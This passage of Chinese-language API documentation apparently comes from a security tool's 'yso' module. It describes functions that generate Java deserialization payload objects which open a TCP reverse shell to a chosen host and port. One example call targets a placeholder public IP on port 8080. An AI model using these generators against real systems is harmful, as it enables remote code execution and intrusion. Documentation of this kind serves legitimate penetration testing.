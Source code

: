 
#### 定义

`GenerateTcpReverseEvilClassObject(host string, port int, options ...GenClassOptionFun) (*javaclassparser.ClassObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| host | `string` |   |
| port | `int` |   |
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*javaclassparser.ClassObject` |   |
| r2 | `error` |   |


### GenerateTcpReverseShellEvilClassObject

#### 详细描述
GenTcpReverseShellClassObject

GenerateTcpReverseShellEvilClassObject 生成一个使用TcpReverseShell类模板的javaclassparser.ClassObject对象，

这个函数结合使用 useTcpReverseShellTemplate ，tcpReverseShellHost ，tcpReverseShellPort 函数， 以生成在反序列化时会反连指定的 tcpReverseShellHost ，tcpReverseShellPort 的Java对象。

host：要设置的 tcpReverseShellHost 的host。

port：要设置的 tcpReverseShellPort 的port。

options：一组可选的GenClassOptionFun函数，用于进一步定制生成的Java对象。

返回：成功时返回javaclassparser.ClassObject对象及nil错误，失败时返回nil及相应错误。

Example:
```
host = &#34;公网IP&#34;
classObject, err := yso.GenerateTcpReverseShellEvilClassObject(host,8080,additionalOptions...) // 生成并配置TcpReverseShell Java对象
```


#### 定义

`GenerateTcpReverseShellEvilClassObject(host string, port int, options ...GenClassOptionFun) (*javaclassparser.ClassObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| host | `string` |   |
| port | `int` |   |
| options | `...GenClassOptionFun` |   |
